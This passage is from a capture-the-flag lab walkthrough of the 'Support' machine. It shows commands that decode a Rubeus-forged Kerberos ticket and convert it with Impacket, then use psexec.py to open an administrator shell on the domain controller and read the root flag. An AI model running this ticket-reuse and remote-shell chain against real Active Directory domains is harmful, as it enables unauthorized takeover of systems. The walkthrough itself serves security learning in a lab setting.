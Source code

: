 For me, it doesn’t work.

#### Remote Use

I’ll grab the last ticket `Rubeus` generated, and copy it back to my machine, saving it as `ticket.kirbi.b64`, making sure to remove all spaces. I’ll base64 decode it into `ticket.kirbi`:

```

oxdf@hacky$ base64 -d ticket.kirbi.b64 > ticket.kirbi

```

Now I need to convert it to a format that Impact can use:

```

oxdf@hacky$ ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done

```

I can use this to get a shell using `psexec.py`:

```

oxdf@hacky$ KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file aXlgPfYK.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service lyPY on dc.support.htb.....
[*] Starting service lyPY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.405]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

And grab `root.txt`:

```

C:\Users\Administrator\Desktop> type root.txt
f319ce3e************************

```

## Beyond Root

